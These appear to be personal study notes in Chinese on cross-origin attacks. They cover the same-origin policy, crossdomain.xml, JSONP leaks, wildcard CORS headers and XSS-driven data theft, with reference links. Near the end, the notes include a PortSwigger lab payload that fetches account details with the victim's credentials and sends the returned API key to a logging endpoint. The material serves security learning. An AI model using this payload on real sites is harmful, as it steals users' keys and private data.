


同源策略，跨域：<https://cloud.tencent.com/developer/article/1534714>
跨域攻击：<https://zhuanlan.zhihu.com/p/410621052>

<https://www.freebuf.com/articles/web/204023.html>

根目录crossdomain.xml文件 可跨域域名

CORS资源共享漏洞：
用户A在登录社交网站，这个时候访问了第三方的页面，第三方页面的js中有可以通过JSONP跨域去请求各种社交网站的个人信息，用户A访问了的社交网站的个人信息的接口如果是回调数据，则可获得个人信息。

用户A的资源接口设置了*所有请求可跨域，导致资源接口被不是A的站点请求导致滥用。

用户A在登录自己的后台或什么页面，如果XSS有恶意ajax脚本，可以请求用户A的网站敏感页面html数据，再把页面的传给攻击者服务器。

用户A的网站B，如果B网站的子域名的网站有XSS有恶意ajax脚本，可以请求用户A的B网站敏感页面html数据，再把页面的传给攻击者服务器。


^
跨域获取铭感信息key，再把key传递给黑阔

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
<https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack>
特征
